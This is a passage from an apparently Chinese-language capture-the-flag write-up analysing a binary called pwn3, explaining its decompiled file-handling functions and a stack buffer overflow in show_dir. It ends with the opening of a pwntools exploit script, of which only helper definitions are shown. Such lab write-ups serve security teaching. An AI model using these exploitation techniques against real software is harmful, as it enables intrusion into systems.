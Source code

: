 这两个函数一起解释，使用 malloc() 申请调用 0xf4(244) 个字节大小的空间，通过对于 get\_input() 函数的分析，第一个参数是输入写入的起始地址，第二个参数是最大字节数，所以每一次调用 put\_file() 函数，前 40 个字节是用来存放文件名的，然后 200 个字节是用来存放内容的，最后 4 字节是用来保存上一块空间的地址

**show\_dir()**

```plain
int show_dir()
{
  int v0; // eax
  char s[1024]; // [esp+14h] [ebp-414h]
  int i; // [esp+414h] [ebp-14h]
  int j; // [esp+418h] [ebp-10h]
  int v5; // [esp+41Ch] [ebp-Ch]

  v5 = 0;
  j = 0;
  bzero(s, 0x400u);
  for ( i = file_head; i; i = *(_DWORD *)(i + 240) )
  {
    for ( j = 0; *(_BYTE *)(i + j); ++j )
    {
      v0 = v5++;
      s[v0] = *(_BYTE *)(i + j);
    }
  }
  return puts(s);
}
```

使用一个循环遍历上面得到的 file\_head，然后利用 bzero() 函数，将 s 设定为一个 0x400 的缓冲区，将内容传入缓冲区中，利用 puts() 函数输出结果

gdb 动调

[![](assets/1701612281-9ea894e55f52877612ce32084efb1699.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718223900-d5b3e1e8-2578-1.png)

**exp1:**

```plain
from pwn import *
p = process('./pwn3')
context.log_level='debug'
context.arch='i386'

elf = ELF('./pwn3')
libc = ELF('./libc.so')

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
#sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
```
